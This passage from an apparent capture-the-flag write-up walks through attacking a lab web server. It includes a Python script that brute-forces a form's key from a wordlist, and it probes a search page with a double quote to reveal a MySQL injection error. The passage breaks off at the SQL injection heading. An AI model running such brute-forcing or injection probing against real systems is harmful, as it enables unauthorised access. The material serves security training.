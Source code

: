 It is a simple web page asking us for a key. When looking at the page code we
notice:

> <!-- this form isn't connected to mysql, password ain't that complex --!>

If there is no SQL injection and the password is simple we need to bruteforce it.
I am not a huge fan of bruteforce but I wrote a simple script that use one of my
password dictionary (mostly common word).

    :::python
    import requests

    url = 'http://192.168.0.20/kzMb5nVYJw/index.php'
    f=open('/usr/share/dict/cracklib-small', 'r')
    password=f.readline()
    data = {'key':password}
    r = requests.post(url, data = data)
    while 'invalid' in r.text:
        password=f.readline().strip()
        data = {'key':password}
        r = requests.post(url, data = data)

    print(password)
    print(r.text)

The password was "elite" and by entering it, we land on a new page.

### 420search.php

The `420search.php` page let us query for an user. If we search 'plop' we got:

> Fetched data successfully

If we search nothing we got:

   :::text
   EMP ID :1
   EMP NAME : ramses
   EMP POSITION :
   --------------------------------
   EMP ID :2
   EMP NAME : isis
   EMP POSITION : employee
   --------------------------------
   Fetched data successfully

This time it is probably a SQL injection as there is no mention against it in
the source code :D. If we introduce a double quote we got:

> Could not get data: You have an error in your SQL syntax; check the manual
> that corresponds to your MySQL server version for the right syntax to use near
> '%"' at line 1

It looks like an SQL injection.

### SQLi
